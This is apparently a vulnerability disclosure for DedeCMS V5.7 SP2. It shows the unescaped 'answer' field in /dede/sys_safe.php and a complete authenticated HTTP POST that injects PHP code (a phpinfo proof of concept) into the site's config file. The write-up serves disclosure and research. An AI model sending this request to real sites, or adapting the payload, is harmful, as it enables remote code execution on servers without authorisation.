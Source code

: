 # Vulnerability Info
## Vulnerability Type
Dedecms background getshell
## Vulnerability Version
V5.7 SP2
## Recurring environment
Windows 10* PHP 5.4.5* Apache 2.4.23
## Author
pang0lin@webray.com.cn inc.
# Vulnerability Description AND recurrence:
The security issue is occured at file /dede/sys_safe.php.
```
    //保存问答数组
    $faqs = array();
    for ($i = 1; $i <= count($question)-1; $i++) 
    {
        $val = trim($question[$i]);
        if($val)
        {
            $faqs[$i]['question'] = str_replace("'","\"",stripslashes($val));
            $faqs[$i]['answer'] = stripslashes(trim($answer[$i]));
        }
    }
    
    //print_r($question);exit();
    $configstr .= "\$safe_faqs = '".serialize($faqs)."';\r\n";
    $configstr = "<"."?php\r\n".$configstr."?".">\r\n";
    
    $fp = fopen($safeconfigfile, "w") or die("写入文件 $safeconfigfile 失败，请检查权限！");
    fwrite($fp, $configstr);
    fclose($fp);
    ShowMsg("修改配置成功！","sys_safe.php");
    exit;
```
It is very strange that the param $faqs[$i]['question'] is escape,but the param $faqs[$i]['answer'] not. Mybe the author forget to do it.
```
$faqs[$i]['question'] = str_replace("'","\"",stripslashes($val));
$faqs[$i]['answer'] = stripslashes(trim($answer[$i]));
```
How to use it? First, we need to login in and request it like blow.
```
POST /dede/sys_safe.php HTTP/1.1
Host: test.com
Content-Length: 903
Cache-Control: max-age=0
Origin: http://test.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://test.com/uploads/dede/sys_safe.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=b0skm3otr4mnf5757cqf36dri6; _csrf_name_ee43b998=f32d4d51d1e76e63fab9b13ba098da00; _csrf_name_ee43b998__ckMd5=742220487726259e; DedeUserID=1; DedeUserID__ckMd5=28220f93251d463f; DedeLoginTime=1577369105; DedeLoginTime__ckMd5=72b229209e37a095
Connection: close

dopost=save&gdopen%5B%5D=1&gdopen%5B%5D=2&gdopen%5B%5D=3&gdopen%5B%5D=4&gdopen%5B%5D=5&gdopen%5B%5D=6&gdopen%5B%5D=7&codetype=3&gdtype=1&gdstyle%5B%5D=3&gd_wwidth=68&gd_wheight=24&codelen=4&question%5B%5D=&answer%5B%5D=&question%5B%5D=%E6%82%A8%E6%9C%80%E5%96%9C%E6%AC%A2%E7%9A%84%E7%BD%91%E5%BB%BA%E7%A8%8B%E5%BA%8F%E6%98%AF%E4%BB%80%E4%B9%88%3F&answer%5B%5D=DedeCMS';phpinfo();//aasssss&question%5B%5D=1%2B11%3D%3F&answer%5B%5D=12&question%5B%5D=%E4%B8%AD%E5%9B%BD%E5%93%AA%E9%A1%B9%E4%BD%93%E8%82%B2%E8%BF%90%E5%8A%A8%E6%9C%80%E8%AE%A9%E4%BA%BA%E5%90%AC%E7%9D%80%E4%BC%A4%E5%BF%83%2C%E7%9C%8B%E7%9D%80%E6%8F%AA%E5%BF%83%3F&answer%5B%5D=%E8%B6%B3%E7%90%83&question%5B%5D=%3Cimg+src%3D%22%2Fimages%2Fdede.gif%22%2F%3E&answer%5B%5D=%E7%BB%87%E6%A2%A6%E5%86%85%E5%AE%B9%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&question%5B%5D=&answer%5B%5D=&gdfaq_reg=0&gdfaq_send=0&gdfaq_msg=1&imageField.x=43&imageField.y=13
```
And Then wen can see phpinfo page anywhere.
![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/dedecms_background_rce.png "Dedecms background getshell")
